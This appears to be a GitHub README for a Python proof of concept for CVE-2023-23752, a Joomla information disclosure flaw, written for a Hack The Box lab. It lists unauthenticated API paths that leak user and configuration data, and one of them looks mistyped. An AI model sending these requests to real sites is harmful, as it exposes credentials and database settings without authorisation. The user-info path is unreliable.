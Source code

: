# CVE-2023-23752 - Joomla Information Disclosure

Yo, I needed to use this exploit in a HTB machine and the only other PoC I could find was written in ruby...

I didn't wanna mess with the ruby dependancies so I just re-wrote it in python "real quick".

---
This is basically just a parser for the JSON returned by the open API endpoints, this can be replicated easily with CURL or a web browser by hitting the following endpoints:

#### User Info

`/api/index.php/v1/config/applicaton?public=true`

#### Config Info

`/api/index.php/v1/config/application?public=true"`

## Usage
`python3 CVE-2023-23752.py -t <target_url>`

---


# License
GPL v3.0 - as all good software should be

Only with explicit permission from the target system owner.

Remember - don't be a skid :)
